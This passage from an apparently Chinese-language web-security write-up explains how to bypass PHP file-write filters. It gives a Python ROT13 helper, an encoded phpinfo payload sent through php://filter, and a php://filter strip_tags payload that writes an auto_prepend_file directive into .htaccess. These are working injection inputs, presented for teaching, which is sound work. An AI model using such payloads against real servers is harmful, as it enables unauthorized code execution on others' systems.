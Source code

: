 ```python
    else:
        print("comfir way is illegal")
        break
for i in range(0,len(upperCase)):
    if i < 13:
        upperDict[upperCase[i]]=upperCase[i+13]
    else:
        upperDict[upperCase[i]]=upperCase[i-13]
for i in range(0,len(lowerCase)):
    if i < 13:
        lowerDict[lowerCase[i]]=lowerCase[i+13]
    else:
        lowerDict[lowerCase[i]]=lowerCase[i-13]
for ch in inputStr:
    if ch in lowerCase:
        result.append(lowerDict[ch])
    elif ch in upperDict:
        result.append(upperDict[ch])
result="".join(result)
print(f"final decode result is {result}")
```

这里构造一下编码内容后就是 `<?cuc cucvasb();?>`  
这里我们直接做 playload 传

![filterchain2.png](assets/1710811396-43c0b4a0239066f53ecdf08f67decf54.png)  
可以看见也是上传了不过这里有个问题就是前面已经有一个标签了所以如果服务器开了短标签，就没办法解析了

![filterchain3.png](assets/1710811396-3cf4d6a03cf3f7239e1e78ee852acc7d.png)

### .htaccess 预包含

```cpp
$filename=php://filter/write=string.strip_tags/resource=.htaccess
$content=?>php_value%20auto_prepend_file%20delete.php
```
